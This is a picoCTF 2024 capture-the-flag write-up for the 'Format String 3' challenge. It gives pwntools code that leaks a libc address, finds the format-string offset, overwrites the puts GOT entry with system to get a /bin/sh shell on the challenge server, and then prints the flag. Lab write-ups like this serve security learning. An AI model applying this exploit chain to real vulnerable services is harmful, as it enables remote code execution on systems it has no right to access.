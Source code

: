 # Format String 3 - picoCTF 2024

## Description
This program doesn't contain a win function. How can you win?
Download the binary [here](https://play.picoctf.org/practice/challenge/449?originalEvent=73&page=2).
Download the source [here](https://play.picoctf.org/practice/challenge/449?originalEvent=73&page=2).
Download libc [here](https://play.picoctf.org/practice/challenge/449?originalEvent=73&page=2), download the interpreter [here](https://play.picoctf.org/practice/challenge/449?originalEvent=73&page=2). Run the binary with these two files present in the same directory.
nc rhea.picoctf.net 57040

## My Approach
Let's analyze the `format-string-3.c` file to get a grasp of the program. The program's output look particularly like this:
```
Howdy gamers!
Okay I'll be nice. Here's the address of setvbuf in libc: 0x74749008a3f0
```
From the `format-string-3.c` file, the value `0x74749008a3f0` is the address of the `setvbuf`. This address will change everytime we reconnect to the challenge. One noticeable variable is the string `normal_string` has the value "/bin/sh", which can help us easily trigger `system("/bin/sh");` in C program. All we have to do is to somehow change the `puts` function into `system` function. We can do this by overwrite the GOT entry for the `puts` function into `system` function. We will perform this by exploiting format string vulnerability. To read more about this vulnerability, please check this [book](chrome-extension://kdpelmjpfafjppnhbloffcjpeomlnpah/https://cs155.stanford.edu/papers/formatstring-1.2.pdf)

### Finding the GOT address of the `puts` function
There are many ways to find it. The fastest way is to use command `objdump -d format-string-3` piped with command `grep puts` to disassemble all the functions used in `format-string-3` and find the `puts` function:
```
$ objdump -d format-string-3 | grep puts
0000000000401080 <puts@plt>:
  401084:       f2 ff 25 8d 2f 00 00    bnd jmp *0x2f8d(%rip)        # 404018 <puts@GLIBC_2.2.5>
  40121d:       e8 5e fe ff ff          call   401080 <puts@plt>
  4012f2:       e8 89 fd ff ff          call   401080 <puts@plt>
```
The GOT entry for `puts` is right before the `<puts@GLIBC_2.2.5>`, which is `0x404018`. You can also use tools like `gdb` or `ghidra` to disassemble the `puts` function but I found this way more convenient. You can also use `python3` to find it:
```
# elf = ELF("format-string-3")
# puts_got = elf.got['puts']
# print(hex(puts_got))
```

### Finding the base address of libc
Some functions like `setvbuf` and `system` are located in libc. However, the location of libc in memory is determined by runtime, which explains why we have different address of `setvbuf` each time we reconnect. This process (called ASLR) is used to defend certain type of attacks and the base address of libc changes due to this. To find it, we can subtract the address value of `setvbuf` we get from the server with the actual address of `setvbuf` in libc file. Finding this base address isn't hard but first we have to find the address of `setvbuf` in libc file:
```
$ objdump -d libc.so.6 | grep setvbuf
000000000007a3f0 <_IO_setvbuf@@GLIBC_2.2.5>:
```
Now we can calculate the base address of libc. Remember, this base address changes everytime we reconnect to the server. Using `pwn` library can help the tasks flow smoother:
```
#!/usr/bin/env python3

from pwn import *

context.arch = 'amd64'

def conn():
    # if args.LOCAL:
    #     r = process([exe.path])
    #     if args.DEBUG:
    #         gdb.attach(r)
    # else:
    r = remote("rhea.picoctf.net", 57040)

    return r
p = conn()
p.recvline()
setvbuf_mem = int(p.recvline()[-13:-1],16) # Extracting the address of setvbuf in server's memory and convert it into integer
setvbuf_libc = 0x07a3f0
libc_base = setvbuf_mem-setvbuf_libc
```

### Calculating the address of `system` in memory
To calculate the actual address of `system` from the server, we can add the address of `system` from libc file to the base address of libc. First, the address of `system` in libc file can be found using the same way (in this case, it's 0x4f760):
```
$ objdump -d libc.so.6 | grep system
000000000004f760 <__libc_system@@GLIBC_PRIVATE>:
   4f767:       74 07                   je     4f770 <__libc_system@@GLIBC_PRIVATE+0x10>
```
Now, we calculate:
```
system_libc = 0x4f760
system_mem = libc+system_libc
```

### Overwriting the GOT entry for `puts` into `system`
We're gonna use `fmtstr_payload` to overwrite the value of the GOT entry for `puts`. To do this, we first need to find the offset value. By spamming `%p`, we can see the offset:
```
p=conn()
p.sendline(b'%p.'*50)
p.recvline()
p.recvline()
print(p.recvline())
```
And, the output is like this:
```
python3 solution.py
[+] Opening connection to rhea.picoctf.net on port 52872: Done
b'0x796376407963.0xfbad208b.0x7ffdc650ab60.0x1.(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.0x252e70252e70252e.0x2e70252e70252e70.0x70252e70252e7025.\n'
[*] Closed connection to rhea.picoctf.net port 52872
```
Until the string `%p.` are repeated (which is 0x70252e in hex), there are 38 chunks of `%p.` shows different value. We can adjusting the number repeated downto 38:
```
p=conn()
p.sendline(b'%p.'*38)
p.recvline()
p.recvline()
print(p.recvline())
```
And, the output is like this:
```
python3 solution.py
[+] Opening connection to rhea.picoctf.net on port 52872: Done
b'0x78b5b22a6963.0xfbad208b.0x7ffe74629b80.0x1.(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).(nil).0x70252e70252e7025.\n'
[*] Closed connection to rhea.picoctf.net port 52872
```
The offset is 38. Put everything together, we can send our payload like this:
```
payload = fmtstr_payload(38, {puts_got: system_mem})
p.sendline(payload)
p.sendline(b"ls")
for i in range(10):
    print(p.recvline())
```
The output looks like this:
```
 python3 solution.py
[*] '/home/zedttxj/test/format-string-3'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x3ff000)
    RUNPATH:  b'.'
0x404018
[+] Opening connection to rhea.picoctf.net on port 52872: Done
b'                                                                                               c               \x8b                                                         \xf0            \x01                       \x00
                                                         \x00aaaaba\x18@@Makefile\n'
b'artifacts.tar.gz\n'
b'flag.txt\n'
b'format-string-3\n'
b'format-string-3.c\n'
b'ld-linux-x86-64.so.2\n'
b'libc.so.6\n'
b'metadata.json\n'
b'profile\n'
```
We successfully execute another `/bin/sh` shell. We also listed all the files in the current directive using `ls` and found out `flag.txt`. By adding `p.interactive()` at the end of the code, you can interact with the shell.
```
p.sendline(payload)
p.interactive()
```
picoCTF{G07_G07?_cf6cb591}
